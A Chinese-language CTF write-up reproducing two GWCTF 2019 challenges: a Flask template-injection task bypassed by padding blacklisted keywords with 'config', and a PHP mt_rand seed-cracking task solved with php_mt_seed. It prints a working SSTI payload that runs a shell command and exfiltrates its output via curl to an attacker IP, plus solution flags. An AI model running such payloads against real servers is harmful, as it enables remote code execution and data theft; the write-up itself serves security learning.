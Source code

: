 ```yaml
---
title: GWCTF 2019 复现
date: 2020-04-30
image: 
description: 广东外语外贸大学主办的比赛
categories: 
- ctf_writeup
tags:
- SSTI
- 伪随机数
---
```

之前广外CTF的时候才刚刚接触CTF，当时只做了一道随机数爆破，现在来复现

------

### [你的名字](https://buuoj.cn/challenges#[GWCTF%202019]你的名字)

考点：flaskSSTI、绕过`{{}}`过滤、黑名单过滤逻辑错误

很详细的SSTI>>：https://xz.aliyun.com/t/6885#toc-4

SSTIbypass姿势>>https://p0sec.net/index.php/archives/120/

参考：>>[ggb0n](http://ggb0n.cool/2020/03/04/GWCTF2019复现/)

打开题目，只有一个输入框，联想到注入，不过SQLi尝试之后发现并不行，于是就去尝试SSTI，不过网上的wp说可以通过抓包查看响应头来判断服务器使用的python的模板。

尝试输入{{2*2}}，返回“Parse error: syntax error, unexpected T_STRING, expecting '{' in \var\WWW\html\test.php on line 13 ”

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120170318.png)

不管怎么改，返回的结果都是一样的，说明可能{{}}被过滤了；

但是可以通过 `{%%}` 类似的方式来进行注入，尝试 `{%if 1%}1{% endif%}` ，发现服务器直接给出500错误。。。判断可能有什么过滤

直接输入if，返回结果是：

```
hello !
```

说明if被替换为空了，尝试双写iiff，但是还是被替换为空了，可能是用的循环匹配。

参考了师傅写的wp，fuzz出来的过滤可能是这个样子：

```
blacklist = ['import', 'getattr', 'os', 'class', 'subclasses', 'mro', 'request', 'args', 'eval',
                 'if', 'for',' subprocess', 'file', 'open', 'popen', 'builtins', 'compile',
                 'execfile', 'from_pyfile', 'local','self', 'item', 'getitem', 'getattribute', 
                 'func_globals', 'config']
for no in blacklist:
    while True:
        if no in s:
            s = s.replace(no, '')
        else:
            break
return s
```

考察黑名单过滤逻辑错误，这种过滤，利用黑名单中最后一个词进行混淆来过滤是最好了，即 `if=>iconfigf` ，因为是用黑名单的关键词按顺序来对输入进行替换的，那么最后一个 `config` 被替换之后，过滤也就结束了。

那么我们在所有被过滤的关键词中间都可以插入一个config来避开过滤；

最终playlaod：

```
{% iconfigf ''.__clconfigass__.__mconfigro__[2].__subclaconfigsses__()[59].__init__.__globals__['linecache'].oconfigs.system('curl http://174.0.225.32/?a=`ls \|base64`') %}1{% endiconfigf %}
#相当于把ls的结果进行base64编码后（不然只能显示一行），以curl的方式发送到攻击机
```

flag{a2bc941d-a38d-42bb-97be-fe2440442cdf}

 

 

 

### [枯燥的抽奖](https://buuoj.cn/challenges#[GWCTF%202019]枯燥的抽奖)

考点：PHP逆向脚本、PHP伪随机数爆破

打开题目，叫你猜数据，并且给了前10位：

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120170333.png)

随便输一个提交，随即给出源码：

```
<?php
#这不是抽奖程序的源代码！不许看！
header("Content-Type: text/html;charset=utf-8");
session_start();
if(!isset($_SESSION['seed'])){
$_SESSION['seed']=rand(0,999999999);
}

mt_srand($_SESSION['seed']);
$str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$str='';
$len1=20;
for ( $i = 0; $i < $len1; $i++ ){
    $str.=substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);       
}
$str_show = substr($str, 0, 10);
echo "<p id='p1'>".$str_show."</p>";


if(isset($_POST['num'])){
    if($_POST['num']===$str){x
        echo "<p id=flag>抽奖，就是那么枯燥且无味，给你flag{xxxxxxxxx}</p>";
    }
    else{
        echo "<p id=flag>没抽中哦，再试试吧</p>";
    }
}
show_source("check.php");
```

意思大概是：

一个20次的循环，每次从 `$str_long1` 随机取一个字符，拼接成最后的 `$str` 。

- 当 `mt_rand()` 函数运行的时候，会检查有没有播种 `mt_srand` 如果已经播种了，就直接取随机数，其实这里和C语言一样（PHP底层是C）如果不每次重新播种的话，随机数怎么取都是一样的

我们来写段代码。

```
<?php
mt_srand(12345);
echo mt_rand()."<br/>";
?>
```

我们访问，输出 `162946439` 。

现在代码改为

```
<?php 
mt_srand(12345); 
echo mt_rand()."<br/>";
echo mt_rand()."<br/>";
echo mt_rand()."<br/>";
echo mt_rand()."<br/>";
echo mt_rand()."<br/>";
?>
```

我们再次访问:

```
162946439

247161732

1463094264

1878061366

394962642
```

现在细心的人可能已经发现，第一个数 `162946439` 存在猫腻了。

为什么生成随机数会一样呢？我们多次访问。震惊:
还是

```
162946439

247161732

1463094264

1878061366

394962642
```

其实，这就是伪随机数的漏洞，存在可预测性。

生成伪随机数是线性的，你可以理解为 `y=ax` , `x` 就是种子，知道种子和一组伪随机数不是就可以推y(伪随机数)了吗
当然，实际上更复杂肯定。

我知道种子后，可以确定你输出伪随机数的序列。
知道你的随机数序列，可以确定你的种子。

用到的是爆破，已经有写好的[C脚本](https://www.openwall.com/php_mt_seed/)了。

我们的思路就是根据他给出的10为数据，来爆破他的随机数种子，然后在把剩下的随机数输出

因为是用的php_mt_seed，我们要用他的格式，这是转换成随机数的脚本

```
<?php
$pass_now = "JAfq968Gqy";//给出的密钥
$allowable_characters = '
abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ';//字母表

$length = strlen($allowable_characters) - 1;

for ($j = 0; $j < strlen($pass_now); $j++) {//遍历密钥
    for ($i = 0; $i < $length; $i++) {//遍历字母表
        if ($pass_now[$j] == $allowable_characters[$i]) {
            echo "$i $i 0 $length ";
            break;
        }
    }
}
?>
```

运行，得到

```
45 45 0 61 36 36 0 61 5 5 0 61 16 16 0 61 35 35 0 61 32 32 0 61 34 34 0 61 42 
42 0 61 16 16 0 61 24 24 0 61
```

把php_mt_seed下载解压之后，运行命令：

```
make
./php_mt_seed 45 45 0 61 36 36 0 61 5 5 0 61 16 16 0 61 35 35 0 61 32 32 0 61 
34 34 0 61 42 42 0 61 16 16 0 61 24 24 0 61
```

可以得到他的随机数种子

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120170347.png)

然后我们直接把他原来的代码拷贝过来，种子替换为我们爆破出来的：

```
<?php
mt_srand(591614089);
$str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$str='';
$len1=20;
for ( $i = 0; $i < $len1; $i++ ){
    $str.=substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);       
}
$str_show = substr($str, 0, 20);
echo $str_show;
?>
```

运行得到一串字符 `JAfq968GqyhRKQTHLc8j` ，开头恰巧就是他给的，提交获得flag

flag{37c86593-2593-4566-b3cd-18081cbe44d0}